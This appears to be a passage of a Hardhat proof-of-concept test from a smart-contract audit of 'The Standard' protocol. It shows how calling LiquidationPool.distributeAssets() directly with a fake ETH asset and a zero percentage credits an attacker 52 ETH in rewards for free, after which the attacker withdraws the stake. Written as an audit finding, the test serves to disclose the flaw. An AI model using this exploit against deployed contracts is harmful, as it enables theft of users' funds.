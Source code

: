 ```js
    await VaultManager.setLiquidatorAddress(LiquidationPoolManager.address);
    await VaultManager.setProtocolAddress(LiquidationPoolManager.address);
    LiquidationPool = await ethers.getContractAt('LiquidationPool', await LiquidationPoolManager.pool());
    await EUROs.grantRole(await EUROs.BURNER_ROLE(), LiquidationPool.address);
  });
  
  describe('The Standard', async () => {
    it('is pwned', async () => {
      // Step 1. stake TST & EUROs
      const tstStake = 1;
      const eurosStake = 1;
      await TST.mint(user.address, tstStake);
      await EUROs.mint(user.address, eurosStake);
      await TST.connect(user).approve(LiquidationPool.address, tstStake);
      await EUROs.connect(user).approve(LiquidationPool.address, eurosStake);
      await LiquidationPool.connect(user).increasePosition(tstStake, eurosStake);
      await fastForward(DAY);
      let { _rewards, _position } = await LiquidationPool.position(user.address);
      expect(_position.EUROs).to.equal(eurosStake);
      expect(_position.TST).to.equal(tstStake);
      
      // Step 2. ATTACK by calling distributeAssets() directly
      const pwned = ethers.utils.parseEther('52'); // @audit-info : amount to be siphoned off, could be any amount
      
      const Token = {symbol: "0x4554480000000000000000000000000000000000000000000000000000000000" , addr: ethers.constants.AddressZero, dec: 18, clAddr: "0xDc64a140Aa3E981100a9becA4E685f962f0cF6C9", clDec: 8};
      const asset = {token: Token, amount: pwned};
      const assets = [asset];
      const FAKE_HUNDRED_PC = 0; // @audit : passing this as zero ensures the attacker has to pay no EUROs
      await LiquidationPool.connect(user).distributeAssets(assets, 1, FAKE_HUNDRED_PC, { value: ethers.utils.parseEther('0') });
      
      ({ _rewards, _position } = await LiquidationPool.position(user.address));
      expect(rewardAmountForAsset(_rewards, 'ETH')).equal(pwned); // @audit : attacker's `rewards` updated
      expect(_position.EUROs).to.equal(eurosStake); // attacker had to pay nothing!
      expect(_position.TST).to.equal(tstStake);
      // now remove the staked amount too
      await LiquidationPool.connect(user).decreasePosition(tstStake, eurosStake);
      ({ _rewards, _position } = await LiquidationPool.position(user.address));
      expect(_position.EUROs).to.equal(0);
      expect(_position.TST).to.equal(0);
    });
  });
});
```

